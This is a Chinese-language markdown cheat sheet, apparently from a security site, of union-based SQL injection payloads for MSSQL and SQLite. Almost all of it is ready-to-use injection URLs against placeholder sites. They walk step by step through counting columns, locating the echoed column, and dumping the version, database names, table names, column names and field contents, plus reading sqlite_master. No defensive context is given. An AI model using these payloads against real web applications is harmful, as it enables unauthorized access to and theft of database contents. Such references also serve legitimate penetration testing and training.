

# 其他数据库注入


## MSSQL注入
#### 判断为MSSQL的显错特征

#### 注入公式
```
猜字段数：
http://www.text.com/sub.php?id=12 and 1=1 union select 1，2，3
或者用null代替数字，用union all代替union
http://www.text.com/sub.php?id=12 and 1=1 union all select null,null,null,null 发现3个null错误，4个null正常，那么字段数就是4

下一步：把and 1=1变成and 1=2使之为假，再慢慢依次替换null
http://www.text.com/sub.php?id=12 and 1=2 union all select 1,2,null,4 	这样，显示位就出来了，回显了2号位

查看版本：
http://www.text.com/sub.php?id=12 and 1=2 union all select 1,@@version,null,4

爆当前库名：
http://www.text.com/sub.php?id=12 and 1=2 union all select 1,db_name(),null,4


爆第1个数据库名(通过dbid切换，以此类推）：
http://www.text.com/sub.php?id=12 and 1=2 union all select 1,name,null,4 from master.dbo.sysdatabases where dbid=1--
爆第2个数据库名：
http://www.text.com/sub.php?id=12 and 1=2 union all select 1,name,null,4 from master.dbo.sysdatabases where dbid=2--


爆第1个表名(通过top切换，依次类推，一条语句前后数据库名相同)：
http://www.text.com/sub.php?id=12 and 1=2 union all select 1,name,null,4 from 数据库名.dbo.sysobjects where xtype=CHAR(85) and name not in (select top 1 name from 数据库名.dbo.sysobjects where xtype=CHAR(85))--
爆第2个表名：
http://www.text.com/sub.php?id=12 and 1=2 union all select 1,name,null,4 from 数据库名.dbo.sysobjects where xtype=CHAR(85) and name not in (select top 2 name from 数据库名.dbo.sysobjects where xtype=CHAR(85))--


爆字段名：
第1步(top用来识别哪个表)：
http://www.text.com/sub.php?id=12 and 1=2 union all select 1,id,null,4 from 数据库名.dbo.sysobjects where xtype=CHAR(85) and name not in (select top 1 name from 数据库名.dbo.sysobjects where xtype=CHAR(85))--
通过上面可获得第1个表的总序号：2073058421
第2步（top 用来识别哪个字段）：
http://www.text.com/sub.php?id=12 and 1=2 union all select 1,name,null,4 from 数据库名.dbo.sysobjects where ID=表的总序号 and name not in (select top 1 name from 数据库名.dbo.sysobjects where ID=表的总序号)--

爆字段内容：
http://www.text.com/sub.php?id=12 and 1=2 union all select 1,字段名，null,4 from 数据库名..表名--
```
## SQLite注入

```
第1步：用union select查字段数（sqlite能用order by查字段数的网站非常少）
http://www.test.com/pro.php?id=0' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
或
http://www.test.com/pro.php?id=0' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25--
查询到25时返回正常，且能够返回显示位

第2步：靠人品猜表名（sqlite没有数据库名）

第3步：从表sqlite_master中查sql字段数据：
http://www.test.com/pro.php?id=0' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,sql,25 from sqlite_master limit 0,1--
```


__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
